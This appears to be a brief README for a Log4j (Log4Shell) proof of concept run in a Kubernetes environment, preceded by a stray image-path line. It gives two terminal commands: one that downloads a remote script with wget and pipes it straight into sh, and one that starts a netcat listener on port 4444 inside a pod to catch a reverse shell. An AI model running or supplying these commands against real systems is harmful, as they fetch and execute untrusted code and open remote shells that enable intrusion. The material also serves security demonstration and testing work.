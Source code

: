 # log4j-poc in kubernetes environment

Terminal 1
apt-get update && apt-get install -y wget;wget -q -O - https://raw.githubusercontent.com/nandakrr/log4j-poc/main/run.sh | sh

Terminal 2
kubectl exec -it nc-pod -- nc -lvnp 4444
